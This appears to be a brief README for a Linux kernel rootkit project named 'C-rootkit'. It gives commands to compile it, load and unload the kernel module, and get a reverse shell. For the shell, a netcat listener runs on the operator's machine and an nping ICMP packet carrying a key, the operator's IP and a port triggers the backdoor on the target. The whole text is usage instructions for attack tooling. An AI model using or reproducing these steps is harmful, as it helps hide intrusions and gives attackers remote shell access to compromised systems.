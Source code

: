 C-rootkit

to compile:
make

to load the kernel module:
./load_module.sh

to unload the kernel module:
./cleanup.sh

to connect to reverse shell:
on your machine: nc -lvvnp [port]
sudo nping --icmp -c 1 -dest-ip [destination ip] --data-string '[KEY] [your ip] [port]'

